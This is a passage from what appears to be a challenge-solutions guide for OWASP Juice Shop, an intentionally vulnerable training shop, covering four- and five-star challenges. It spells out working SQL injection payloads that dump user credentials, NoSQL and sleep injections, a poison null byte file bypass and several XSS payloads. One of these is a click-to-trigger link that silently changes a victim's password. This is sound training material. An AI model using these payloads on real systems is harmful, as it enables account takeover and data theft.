        <name>Apple Juice</name>
        <trader>
            <foo>&xxe;</foo>
            <name>B. Kimminich</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Lemon Juice</name>
        <trader>
            <name>B. Kimminich</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
```

## ⭐⭐⭐⭐ Challenges

### Gain access to any access log file of the server

1. Solve the
   [Access a confidential document](#access-a-confidential-document) or
   any related challenges which will bring the exposed `/ftp` folder to
   your attention.
2. Visit <http://localhost:3000/ftp> and notice the file
   `incident-support.kdbx` which is needed for
   [Log in with the support team's original user credentials](../part2/security-misconfiguration.md#log-in-with-the-support-teams-original-user-credentials)
   and indicates that some support team is performing its duties from
   the public Internet and possibly with VPN access.
3. Guess luckily or run a brute force attack with e.g.
   [OWASP ZAPs DirBuster plugin](https://github.com/zaproxy/zap-extensions/tree/beta/src/org/zaproxy/zap/extension/bruteforce)
   for a possibly exposed directory containing the log files.
4. Following
   [the hint to drill down deeper than one level](../part2/sensitive-data-exposure.md#gain-access-to-any-access-log-file-of-the-server),
   you will at some point end up with
   <http://localhost:3000/support/logs>.
5. Inside you will find at least one `access.log` of the current day.
   Open or download it to solve this challenge.

   

### Bypass the Content Security Policy and perform an XSS attack on a legacy page

1. Log in as any user.
2. Visit our user profile page at <http://localhost:3000/profile>.
3. Type in any _Username_ and click the _Set Username_ button.
4. Notice that the username is displayed beneath the profile image.
5. Change the username into ``<script>alert(`xss`)</script>`` and click
   _Set Username_.
6. Notice the displayed username under the profile picture now is
   ``lert(`xss`)`` while in the _Username_ field it shows
   ``lert(`xss`)</script>`` - both a clear indication that the malicious
   input was sanitized. Obviously the sanitization was not very
   sophisticated, as the input was quite mangled and even the closing
   `<script>` tag survived the procedure.
7. Change the username into ``<<a|ascript>alert(`xss`)</script>`` and
   click _Set Username_.
8. The naive sanitizer only removes `<a|a` effectively changing the
   username into ``<script>alert(`xss`)</script>`` but you'll notice
   that the script is still not executed!
9. The username shows as `\` on the screen and the
   ``<script>alert(`xss`)</script>`` is part of the DOM. It seems that
   its execution was blocked by the Content Security Policy (CSP) of the
   page.
10. 🛠️ **TODO** (add CSP bypass steps)
11. Refresh the page to give the browser the chance to load the tampered
    CSP and enjoy the alert box popping up!

### Order the Christmas special offer of 2014

1. Open http://localhost:3000/#/search and reload the page with `F5`
   while observing the _Network_ tab in your browser's DevTools
2. Recognize the `GET` request
   <http://localhost:3000/rest/products/search?q=> which returns the
   product data.
3. Submitting any SQL payloads via the _Search_ field in the navigation
   bar will do you no good, as it is only applying filters onto the
   entire data set what was retrieved with a singular call upon loading
   the page.
4. In that light, the `q=` parameter on the
   <http://localhost:3000/rest/products/search> endpoint would not even
   be needed, but might be a relic from a different implementation of
   the search functionality. Test this theory by submitting
   <http://localhost:3000/rest/products/searchq=orange> which should
   give you a result such as

   
5. Submit `';` as `q` via
   <http://localhost:3000/rest/products/search?q=';>
6. You will receive an error page with a `SQLITE_ERROR: syntax error`
   mentioned, indicating that SQL Injection is indeed possible.

   
7. You are now in the area of Blind SQL Injection, where trying create
   valid queries is a matter of patience, observance and a bit of luck.
8. Varying the payload into `'--` for `q` results in a `SQLITE_ERROR:
   incomplete input`. This error happens due to two (now unbalanced)
   parenthesis in the query.
9. Using `'))--` for `q` fixes the syntax and successfully retrieves all
   products, including the (logically deleted) Christmas offer. Take
   note of its `id` (which should be `10`)

   
10. Go to <http://localhost:3000/#/login> and log in as any user.
11. Add any regularly available product into you shopping basket to
    prevent problems at checkout later. Memorize your `BasketId` value
    in the request payload (when viewing the Network tab) or find the
    same information in the `bid` variable in your browser's Session
    Storage (in the Application tab).
12. Craft and send a `POST` request to
    <http://localhost:3000/api/BasketItems> with
    * `{"BasketId": "<Your Basket ID>", "ProductId": 10, "quantity": 1}`
      as body
    * and `application/json` as `Content-Type`
13. Go to <http://localhost:3000/#/basket> to verify that the "Christmas
    Super-Surprise-Box (2014 Edition)" is in the basket
14. Click _Checkout_ on the _Your Basket_ page to solve the challenge.

#### Alternative path without any SQL Injection

This solution involves a lot less hacking & sophistication but requires
more attention & a good portion of shrewdness.

1. Retrieve all products as JSON by calling
   <http://localhost:3000/rest/products/search?q=>
2. Write down all `id`s that are _missing_ in the otherwise sequential
   numeric range
3. Perform step 12. and 13. from above solution for all those missing
   `id`s
4. Once you hit the "Christmas Super-Surprise-Box (2014 Edition)" click
   _Checkout_ for instant success!

### Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous

1. Solve
   [Order the Christmas special offer of 2014](#order-the-christmas-special-offer-of-2014)
   but enumerate all deleted products until you come across "Rippertuer
   Special Juice"
2. Notice the warning _"This item has been made unavailable because of
   lack of safety standards."_ in its description, indicating that this
   is the product you need to investigate for this challenge
3. Further notice the partial list of ingredients in the description
   namely _"Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora,
   Bael Aegle marmelos... and others"_
4. Submitting either or all of the above ingredients at
   <http://localhost:3000/#/contact> will **not** solve this challenge -
   it must be some unlisted ingredients that create a dangerous
   combination.
5. A simple Google search for `Cherymoya Annona cherimola Jabuticaba
   Myrciaria cauliflora Bael Aegle marmelos` should bring up several
   results, one of them being a blog post "Top 20 Fruits You Probably
   Don’t Know" from 2011. Visit this post at
   <https://listverse.com/2011/07/08/top-20-fruits-you-probably-dont-know>
6. Scrolling through the list of replies you will notice
   [a particular comment from user _Localhorst_](https://listverse.com/2011/07/08/top-20-fruits-you-probably-dont-know/#comment-4541753139)
   saying _"Awesome, some of these fruits also made it into our
   "Rippertuer Special Juice"! https://pastebin.com/90dUgd7s"_
7. Visit <https://pastebin.com/90dUgd7s> to find a PasteBin paste titled
   "Rippertuer Special Juice Ingredients" containing a JSON document
   with many exotic fruits in it, each with its name as `type` and a
   detailed `description`
8. When carefully reading all fruit descriptions you will notice a
   warning on the `Hueteroneel` fruit that _"this coupled with Eurogium
   Edule was sometimes found fatal"_

   
9. As `Eurogium Edule` is also on the very same list of ingredients,
   these two must be the ones you are looking for
10. Submit a comment containing both `Eurogium Edule` and `Hueteroneel`
    via <http://localhost:3000/#/contact> to solve this challenge

### Find the hidden easter egg

1. Use the _Poison Null Byte_ attack described in
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)...
2. ...to download <http://localhost:3000/ftp/eastere.gg%2500.md>

### Apply some advanced cryptanalysis to find the real easter egg

1. Get the encrypted string from the `eastere.gg` from the
   [Find the hidden easter egg](#find-the-hidden-easter-egg) challenge:
   `L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==`
2. Base64-decode this into
   `/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt`
3. Trying this as a URL will not work. Notice the recurring patterns
   (`rtt`, `gur` etc.) in the above string
4. ROT13-decode this into
   `/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`
5. Visit
   <http://localhost:3000/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg>

   
6. Marvel at _the real_ easter egg: An interactive 3D scene of _Planet
   Orangeuze_!

> ROT13 ("rotate by 13 places", sometimes hyphenated ROT-13) is a simple
> letter substitution cipher that replaces a letter with the letter 13
> letters after it in the alphabet. ROT13 is a special case of the
> Caesar cipher, developed in ancient Rome.
>
> Because there are 26 letters (2×13) in the basic Latin alphabet, ROT13
> is its own inverse; that is, to undo ROT13, the same algorithm is
> applied, so the same action can be used for encoding and decoding. The
> algorithm provides virtually no cryptographic security, and is often
> cited as a canonical example of weak encryption.[^1]

### Successfully redeem an expired campaign coupon code

1. Open `main-es2015.js` in your Browser's dev tools and search for
   `campaign`.

   
2. You will find a function `applyCoupon()` that contains a static
   comparison `"WMNSDY2019" === this.couponControl.value` pointing to
   `WMNSDY2019` as the solution.
3. Submitting `WMNSDY2019` will yield an `Invalid Coupon.` error,
   though. This is because of the second part of the validity check
   `15519996e5 === this.clientDate`.
4. Converting this number into a JavaScript date will tell you that this
   campaign was active on March 8th 2019 only: Women's Day!
5. Set the time of your computer to March 8th 2019 and try to submit the
   code again.
6. This time it will be accepted! Proceed to _Checkout_ to get the
   challenge solved.

### Access a developer's forgotten backup file

1. Browse to <http://localhost:3000/ftp> (like in
   [Access a confidential document](#access-a-confidential-document).
2. Opening <http://localhost:3000/ftp/package.json.bak> directly will
   fail complaining about an illegal file type.
3. Using a _Poison Null Byte_ (`%00`) the filter can be tricked, but
   only with a twist:
   * Accessing <http://localhost:3000/ftp/package.json.bak%00.md> will
     surprisingly **not** succeed...
   * ...because the `%` character needs to be URL-encoded (into `%25`)
     as well in order to work its magic later during the file system
     access.
4. <http://localhost:3000/ftp/package.json.bak%2500.md> will ultimately
   solve the challenge.

> By embedding NULL Bytes/characters into applications that do not
> handle postfix NULL terminators properly, an attacker can exploit a
> system using techniques such as Local File Inclusion. The Poison Null
> Byte exploit takes advantage strings with a known length that can
> contain null bytes, and whether or not the API being attacked uses
> null terminated strings. By placing a NULL byte in the string at a
> certain byte, the string will terminate at that point, nulling the
> rest of the string, such as a file extension.[^2]

### Access a salesman's forgotten backup file

1. Use the _Poison Null Byte_ attack described in
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)...
2. ...to download
   <http://localhost:3000/ftp/coupons_2013.md.bak%2500.md>

### Log in with Bjoern's Gmail account

1. Bjoern has registered via Google OAuth with his (real) account
   <bjoern.kimminich@googlemail.com>.
2. Cracking his password hash will probably not work.
3. To find out how the OAuth registration and login work, inspect the
   `main-es2015.js` and search for `oauth`, which will eventually reveal
   a function `userService.oauthLogin()`.

   
4. In the function body you will notice a call to `userService.save()` -
   which is used to create a user account in the non-Google _User
   Registration_ process - followed by a call to the regular
   `userService.login()`
5. The `save()` and `login()` function calls both leak how the password
   for the account is set: `password:
   btoa(n.email.split("").reverse().join(""))`
6. Some Internet search will reveal that `window.btoa()` is a default
   function to encode strings into Base64.
7. What is passed into `btoa()` is `email.split("").reverse().join("")`,
   which is simply the email address string reversed.
8. Now all you have to do is Base64-encode `moc.liamg@hcinimmik.nreojb`,
   so you can log in directly with _Email_ `bjoern.kimminich@gmail.com`
   and _Password_ `bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=`.

### Steal someone else's personal data without using Injection

1. Log in as any user, put some items into your basket and create an
   order from these.
2. Copy the order ID from the confirmation PDF. It should look similar
   to `5267-829f123593e9d098` in its format.
3. Visit <http://localhost:3000/#/track-order>, paste in your _Order ID_
   and then click _Track_.
4. In the network tab of your browser you should find a request similar
   to <http://localhost:3000/rest/track-order/7962-6e31e50a0c6f2ea3>.
5. Inspecting the response closely, you might notice that the user email
   address is partially obfuscated:
   `{"status":"success","data":[{"orderId":"5267-829f123593e9d098","email":"*dm*n@j**c*-sh.*p","totalPrice":2.88,"products":[{"quantity":1,"name":"Apple
   Juice
   (1000ml)","price":1.99,"total":1.99,"bonus":0},{"quantity":1,"name":"Apple
   Pomace","price":0.89,"total":0.89,"bonus":0}],"bonus":0,"eta":"2","_id":"tosmfPsDaWcEnzRr3"}]}`
6. It looks like certain letters - seemingly all vowels - were replaced
   with `*` characters before the order was stored in the database.
7. Register a new user with an email address that would result in _the
   exact same_ obfuscated email address. For example register
   `edmin@juice-sh.op` to steal the data of `admin@juice-sh.op`.
8. Log in with your new user and immediately get your data exported via
   <http://localhost:3000/#/privacy-security/data-export>.
9. You will notice that the order belonging to the existing user
   `admin@juice-sh.op` (in this example `5267-829f123593e9d098`) is part
   of your new user's data export due to the clash when obfuscating
   emails!

### Access a misplaced SIEM signature file

1. Use the _Poison Null Byte_ attack described in
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)...
2. ...to download
   <http://localhost:3000/ftp/suspicious_errors.yml%2500.md>

### Let the server sleep for some time

1. You can interact with the backend API for product reviews via the
   dedicated endpoints `/rest/products/reviews` and
   `/rest/products/{id}/reviews`
2. Get the reviews of the product with database ID 1:
   http://localhost:3000/rest/products/1/reviews
3. Inject a
   [`sleep(integer ms)` command](https://docs.mongodb.com/manual/reference/method/sleep/)
   by changing the URL into
   http://localhost:3000/rest/products/sleep(2000)/reviews to solve the
   challenge

To avoid _real_ Denial-of-Service (DoS) issues, the Juice Shop will only
wait for a maximum of 2 seconds, so
http://localhost:3000/rest/products/sleep(999999)/reviews should not
take longer than http://localhost:3000/rest/products/sleep(2000)/reviews
to respond.

### Update multiple product reviews at the same time

1. Log in as any user to get your `Authorization` token from any
   subsequent request's headers.
2. Submit a PATCH request to http://localhost:3000/rest/products/reviews
   with
   * `{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }` as body
   * `application/json` as `Content-Type` header.
   * and `Bearer ?` as `Authorization` header, replacing the `?` with
     the token you received in step 1.

   
3. Check different product detail dialogs to verify that _all review
   texts_ have been changed into `NoSQL Injection!`

### Enforce a redirect to a page you are not supposed to redirect to

1. Pick one of the redirect links in the application, e.g.
   <http://localhost:3000/redirect?to=https://github.com/bkimminich/juice-shop>
   from the _GitHub_-button in the navigation bar.
2. Trying to redirect to some unrecognized URL fails due to whitelist
   validation with `406 Error: Unrecognized target URL for redirect`.
3. Removing the `to` parameter (<http://localhost:3000/redirect>) will
   instead yield a `500 TypeError: Cannot read property 'indexOf' of
   undefined` where the `indexOf` indicates a severe flaw in the way the
   whitelist works.
4. Craft a redirect URL so that the target-URL in `to` comes with an own
   parameter containing a URL from the whitelist, e.g.
   <http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/bkimminich/juice-shop>

### Reset Bender's password via the Forgot Password mechanism

1. Trying to find out who "Bender" might be should _immediately_ lead
   you to _Bender from [Futurama](http://www.imdb.com/title/tt0149460/)_
   as the only viable option

   
2. Visit https://en.wikipedia.org/wiki/Bender_(Futurama) and read the
   _Character Biography_ section
3. It tells you that Bender had a job at the metalworking factory,
   bending steel girders for the construction of _suicide booths_.
4. Find out more on _Suicide Booths_ on
   http://futurama.wikia.com/wiki/Suicide_booth
5. This site tells you that their most important brand is _Stop'n'Drop_
6. Visit http://localhost:3000/#/forgot-password and provide
   `bender@juice-sh.op` as your _Email_
7. In the subsequently appearing form, provide `Stop'n'Drop` as _Company
   you first work for as an adult?_
8. Then type any _New Password_ and matching _Repeat New Password_
9. Click _Change_ to solve this challenge

### Reset Uvogin's password via the Forgot Password mechanism

1. To reset Uvogin's password, you need the to find out what his
   favorite movie is in order to answer his security question. This is
   the kind of information that people often carelessly expose online.

2. People often tend to reuse aliases on different websites.
   [Sherlock](https://github.com/sherlock-project/sherlock) is a great
   tool for finding social media accounts with known aliases/pesudonyms.

3. Unfortunately, plugging _uvogin_ into sherlock yields nothing of
   interest. Reading the reviews left by uvogin on the various products,
   one can notice that they have quite an affinity for _leetspeak_

4. Trying out a few variations of the alias uvogin, _uv0gin_ leads us to
   a twitter account with a similarly written tweet which references a
   vulnerable beverage store. However nothing about his favorite movie

   
5. The [WayBack](https://archive.org/web/) can be used to check for
   older versions of their profile page to look for deleted tweets. And
   indeed, one of the snapshots available on WayBack contains a deleted
   tweet that references `Silence of the Lambs` which is infact the
   correct answer to his security question

   

### Rat out a notorious character hiding in plain sight in the shop

1. Looking for irregularities among the image files you will at some
   point notice that `5.png` is the only PNG file among otherwise only
   JPGs in the customer feedback carousel:

   
2. Running this image through some decoders available online will
   probably just return garbage, e.g.
   <http://stylesuxx.github.io/steganography/> gives you `ÿÁÿm¶Û$–ÿ
   ?HÕPü^‡ÛN'c±UY‰;fä’HÜmÉ#r<v¸` or
   <https://www.mobilefish.com/services/steganography/steganography.php>
   gives up with `No hidden message or file found in the image`. On
   <https://incoherency.co.uk/image-steganography/#unhide> you will also
   find nothing independent of how you set the _Hidden bits_ slider:

   
3. Moving on to client applications you might end up with
   [OpenStego](https://www.openstego.com/) which is built in Java but
   also offers a Windows installer at
   <https://github.com/syvaidya/openstego/releases>.
4. Selecting the `5.png` and clicking _Extract Data_ OpenStego will
   quickly claim to have been successful:

   
5. The image that will be put into the _Output Stego file_ location
   clearly depicts a pixelated version of
   [Pickle Rick](https://en.wikipedia.org/wiki/Pickle_Rick) (from S3E3 -
   one of the best
   [Rick & Morty](https://en.wikipedia.org/wiki/Rick_and_Morty) episodes
   ever)

   
6. Visit <http://localhost:3000/#/contact>
7. Submit your feedback containing the name `Pickle Rick` (case doesn't
   matter) to solve this challenge.

### Inform the shop about a typosquatting trick it has been a victim of

1. Solve the
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)
   challenge and open the `package.json.bak` file
2. Scrutinizing each entry in the `dependencies` list you will at some
   point get to `epilogue-js`, the overview page of which gives away
   that you find the culprit at
   https://www.npmjs.com/package/epilogue-js

   
3. Visit <http://localhost:3000/#/contact>
4. Submit your feedback with `epilogue-js` in the comment to solve this
   challenge

You can probably imagine that the typosquatted `epilogue-js` would be _a
lot harder_ to distinguish from the original repository `epilogue`, if
it where not marked with the _THIS IS **NOT** THE MODULE YOU ARE LOOKING
FOR!_-warning at the very top. Below you can see the original `epilogue`
NPM page:


### Retrieve a list of all user credentials via SQL Injection

1. During the
   [Order the Christmas special offer of 2014](#order-the-christmas-special-offer-of-2014)
   challenge you learned that the `/rest/products/search` endpoint is
   susceptible to SQL Injection into the `q` parameter.
2. The attack payload you need to craft is a `UNION SELECT` merging the
   data from the user's DB table into the products returned in the JSON
   result.
3. As a starting point we use the known working `'))--` attack pattern
   and try to make a `UNION SELECT` out of it
4. Searching for `')) UNION SELECT * FROM x--` fails with a
   `SQLITE_ERROR: no such table: x` as you would expect. But we can
   easily guess the table name or infer it from one of the previous
   attacks on the _Login_ form where even the underlying SQL query was
   leaked.
5. Searching for `')) UNION SELECT * FROM Users--` fails with a
   promising `SQLITE_ERROR: SELECTs to the left and right of UNION do
   not have the same number of result columns` which least confirms the
   table name.
6. The next step in a `UNION SELECT`-attack is typically to find the
   right number of returned columns. As the _Search Results_ table in
   the UI has 3 columns displaying data, it will probably at least be
   three. You keep adding columns until no more `SQLITE_ERROR` occurs
   (or at least it becomes a different one):

   1. `')) UNION SELECT '1' FROM Users--` fails with `number of result
      columns` error
   2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of
      result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number
      of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      Users--` _still fails_ with `number of result columns` error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM
      Users--` finally gives you a JSON response back with an extra
      element
      `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.

7. Next you get rid of the unwanted product results changing the query
   into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
   '6', '7', '8', '9' FROM Users--` leaving only the "`UNION`ed" element
   in the result set
8. The last step is to replace the fixed values with correct column
   names. You could guess those **or** derive them from the RESTful API
   results **or** remember them from previously seen SQL errors while
   attacking the _Login_ form.
9. Searching for `qwert')) UNION SELECT id, email, password, '4', '5',
   '6', '7', '8', '9' FROM Users--` solves the challenge giving you a
   the list of all user data in convenient JSON format.

   

There is of course a much easier way to retrieve a list of all users as
long as you are logged in: Open <http://localhost:3000/#/administration>
while monitoring the HTTP calls in your browser's developer tools. The
response to <http://localhost:3000/rest/user/authentication-details>
also contains the user data in JSON format. But: This list has all the
password hashes replaced with `*`-symbols, so it does not count as a
solution for this challenge.

### Inform the shop about a vulnerable library it is using

Juice Shop depends on a JavaScript library with known vulnerabilities.
Having the `package.json.bak` and using an online vulnerability database
like [Retire.js](https://retirejs.github.io/) or
[Snyk](https://snyk.io/vuln) makes it rather easy to identify it.

1. Solve
   [Access a developer's forgotten backup file](../part2/sensitive-data-exposure.md#access-a-developers-forgotten-backup-file)
2. Checking the dependencies in `package.json.bak` for known
   vulnerabilities online will give you a match (at least) for
   * `sanitize-html`: Sanitization of HTML strings is not applied
     recursively to input, allowing an attacker to potentially inject
     script and other markup (see
     <https://snyk.io/vuln/npm:sanitize-html:20160801>)
   * `express-jwt`: Inherits an authentication bypass and other
     vulnerabilities from its dependencies (see
     <https://app.snyk.io/test/npm/express-jwt/0.1.3>)
3. Visit <http://localhost:3000/#/contact>
   1. Submit your feedback with the string pair `sanitize-html` and
      `1.4.2` appearing somewhere in the comment. Alternatively you can
      submit `express-jwt` and `0.1.3`.

### Perform a persisted XSS attack bypassing a server-side security mechanism

In the `package.json.bak` you might have noticed the pinned dependency
`"sanitize-html": "1.4.2"`. Internet research will yield a reported
[Cross-site Scripting (XSS)](https://snyk.io/vuln/npm:sanitize-html:20160801)
vulnerability, which was fixed with version 1.4.3 - one release later
than used by the Juice Shop. The referenced
[GitHub issue](https://github.com/punkave/sanitize-html/issues/29)
explains the problem and gives an exploit example:

> Sanitization is not applied recursively, leading to a vulnerability to
> certain masking attacks. Example:
>
> `I am not harmless: <img src="csrf-attack"/>`
> is sanitized to `I am not harmless: `
>
> Mitigation: Run sanitization recursively until the input html matches
> the output html.

1. Visit http://localhost:3000/#/contact.
2. Enter `<<script>Foo</script>iframe src="javascript:alert(`xss`)">` as
   _Comment_
3. Choose a rating and click _Submit_
4. Visit http://localhost:3000/#/about for a first "xss" alert (from the
   _Customer Feedback_ slideshow)

   
5. Visit http://localhost:3000/#/administration for a second "xss" alert
   (from the _Customer Feedback_ table)

   

### Perform a persisted XSS attack through an HTTP header

1. Log in as any user.
2. Visit <http://localhost:3000/#/privacy-security/last-login-ip> where
   your _IP Address_ probably shows as `0.0.0.0`.

   
3. Log out and then log in again with the same user as before.
4. Visit <http://localhost:3000/#/privacy-security/last-login-ip> again
   where your _IP Address_ should now show your actual remote IP address
   (or `127.0.0.1` if you run the application locally).
5. Find the request to <https://localhost:3000/rest/saveLoginIp> in your
   Browser DevTools.
6. Replay the request after adding the `X-Forwarded-For` HTTP header to
   spoof an arbitrary IP, e.g. `1.2.3.4`.
7. Unfortunately in the response (and also on
   <http://localhost:3000/#/privacy-security/last-login-ip> after
   logging in again) you will still find your remote IP as before
8. Repeat step 6. only with the proprietary header `True-Client-IP`.
9. In the JSON response you will notice `lastLoginIp: "1.2.3.4"` and
   after logging in again you will see `1.2.3.4` as your _IP Address_ on
   <http://localhost:3000/#/privacy-security/last-login-ip>.
10. Replay the request once more with `True-Client-IP: <iframe
    src="javascript:alert(``xss``)">` to solve this seriously obscure
    challenge.
11. Log in again and visit
    <http://localhost:3000/#/privacy-security/last-login-ip> see the
    alert popup.

    

## ⭐⭐⭐⭐⭐ Challenges

### Learn about the Token Sale before its official announcement

1. Open the `main-es2015.js` in your browser's developer tools and
   search for some keywords like "ico", "token", "bitcoin" or "altcoin".
2. Note the names of the JavaScript functions where these occur in, like
   `Vu()` and `Hu(l)`. These names are obfuscated, so they might be
   different for you.

   
3. Searching for references to those functions in `main-es2015.js` might
   yield some more functions, like `zu(l)` and some possible route name
   `app-token-sale`

   
4. Navigate to <http://localhost:3000/#/app-token-sale> or variations
   like <http://localhost:3000/#/token-sale> just to realize that these
   routes do not exist.
5. After some more chasing through the minified code, you should realize
   that `Vu` is referenced in the route mappings that already helped
   with
   [Find the carefully hidden 'Score Board' page](#find-the-carefully-hidden-score-board-page)
   and
   [Access the administration section of the store](#access-the-administration-section-of-the-store)
   but not to a static title. It is mapped to another variable `Ca`
   (which might be named differently for you)

   
6. Search for `function Ca(` to find the declaration of the function
   that should return a matcher to the route name you are looking for.

   
7. Copy the obfuscating function into the JavaScript console of your
   browser and execute it immediately by appending a `()`. This will
   probably yield a `Uncaught SyntaxError: Unexpected token )`. When you
   pass values in, like `(1)` or `('a')` you will notice that the input
   value is simply returned.
8. Comparing the route mapping to others shows you that here a `matcher`
   is mapped to a `component` whereas most other mappings map a `path`
   to their `component`.
9. The code that gives you the sought-after path is the code block
   passed into the `match()` function inside `Ca(l)`!

   
10. Copying that inner code block and executing that in your console
    will still yield an error!
11. You need to append it to a string to make it work, which will
    **finally** yield the path `/tokensale-ico-ea`.
12. Navigate to <http://localhost:3000/#/tokensale-ico-ea> to solve this
    challenge.

```javascript
"" + function() {
                for (var l = [], n = 0; n < arguments.length; n++)
                    l[n] = arguments[n];
                var e = Array.prototype.slice.call(l)
                  , t = e.shift();
                return e.reverse().map(function(l, n) {
                    return String.fromCharCode(l - t - 45 - n)
                }).join("")
            }(25, 184, 174, 179, 182, 186) + 36669..toString(36).toLowerCase() + function() {
                for (var l = [], n = 0; n < arguments.length; n++)
                    l[n] = arguments[n];
                var e = Array.prototype.slice.call(arguments)
                  , t = e.shift();
                return e.reverse().map(function(l, n) {
                    return String.fromCharCode(l - t - 24 - n)
                }).join("")
            }(13, 144, 87, 152, 139, 144, 83, 138) + 10..toString(36).toLowerCase()
```

### Change Bender's password into slurmCl4ssic without using SQL Injection or Forgot Password

1. Log in as anyone.
2. Inspecting the backend HTTP calls of the _Password Change_ form
   reveals that these happen via `HTTP GET` and submits current and new
   password in clear text.
3. Probe the responses of `/rest/user/change-password` on various
   inputs:
   * <http://localhost:3000/rest/user/change-password?current=A> yields
     a `401` error saying `Password cannot be empty.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B>
     yields a `401` error saying `New and repeated password do not
     match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=C>
     also says `New and repeated password do not match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=B>
     says `Current password is not correct.`
   * <http://localhost:3000/rest/user/change-password?new=B&repeat=B>
     yields a `200` success returning the updated user as JSON!
4. Now
   [Log in with Bender's user account](#log-in-with-benders-user-account)
   using SQL Injection.
5. Craft a GET request with Bender's `Authorization Bearer` header to
   <http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic>
   to solve the challenge.

   

#### Bonus Round: Delivering the attack via reflected XSS

If you want to craft an actually realistic attack against
`/rest/user/change-password` that you could send a user as a malicious
link, you will have to invest a bit extra work, because a simple attack
like _Search_ for ``
will not work. Making someone click on the corresponding attack link
<http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E>
will return a `500` error when loading the image URL with a message
clearly stating that your attack ran against a security-wall: `Error:
Blocked illegal activity`

To make this exploit work, some more sophisticated attack URL is
required:

<http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E>

Pretty-printed this attack is easier to understand:

```html
<iframe src="javascript:xmlhttp = new XMLHttpRequest();
   xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&amp;repeat=slurmCl4ssic');
   xmlhttp.setRequestHeader('Authorization',`Bearer=${localStorage.getItem('token')}`);
   xmlhttp.send();">
</iframe>
```

Anyone who is logged in to the Juice Shop while clicking on this link
will get their password set to the same one we forced onto Bender!

👏 Kudos to Joe Butler, who originally described this advanced XSS
payload in his blog post
[Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html).

### Stick cute cross-domain kittens all over our delivery boxes

1. Log in with any user and go to
   <http://localhost:3000/#/deluxe-membership>
2. Right-click and _Inspect_ the image of the delivery boxes with the
   Juice Shop logo on them.
3. You will notice that this image is in fact an inline `<svg>` tag that
   includes six `<image>` tags. One is loading
   `assets/public/images/deluxe/blankBoxes.png` and the other five load
   `assets/public/images/JuiceShop_Logo.png` in different sizes and
   positions onto the SVG graphic.
4. Open the `main-es2015.js` in your browser DevTools and search for the
   corresponding Angular controller code related to that page and SVG
   image
5. You will be able to spot six `:svg:image` references, one of them
   `blankBoxes.png` and the other five seemingly unspecified at that
   time.

   
6. Scrolling only slightly further down, you will notice a code location
   where a property `t.logoSrc` is passed into some non-descriptive
   function five times.

   
7. Scroll up in the source code a few hundred lines until you reach the
   declaration of the controller (`class Ht` in the following
   screenshot). There you find the definition of `this.logoSrc =
   "assets/public/images/JuiceShop_Logo.png"`.
8. In the subsequent `ngOnInit()` function is overwritten with either
   the `application.logo` value coming out of the
   `getApplicationConfiguration()` service...
9. ...or - if specified - the value of the URL query parameter
   `testDecal`! It seems the developers used this for testing the
   overlay images on the SVG but forgot to remove it before go-live!
   D'uh!

   
10. Try the `testDecal` parameter, e.g. by going to
    <http://localhost:3000/#/deluxe-membership?testDecal=test>. You will
    notice that the logos on the boxes are now gone or display a broken
    image symbol.

    
11. As the logo references are relative, you cannot simply do e.g.
    <http://localhost:3000/#/deluxe-membership?testDecal=https:%2F%2Fplacekitten.com%2Fg%2F400%2F500>
    as this would result in the application to request the logos from
    the relative URL
    `assets/public/images/https://placekitten.com/g/400/500` which
    obviously cannot work.
12. As you are dealing with a relative path, you can try if path
    traversal works, so you could get to the root of the web server e.g.
    via
    <http://localhost:3000/#/deluxe-membership?testDecal=..%2F..%2F..%2Ftest>.
    This will indeed result in the image actually being requested as
    <http://localhost:3000/test>!

    
13. It might not seem like it, but this behavior is a huge step forward!
    If the Juice Shop web server only offered a URL which would be able
    to _redirect_ you to any external location and grab those images...
14. ...which _it does_ in the form of the
    <http://localhost:3000/redirect> endpoint! If you haven't done so
    yet, you should stop here and
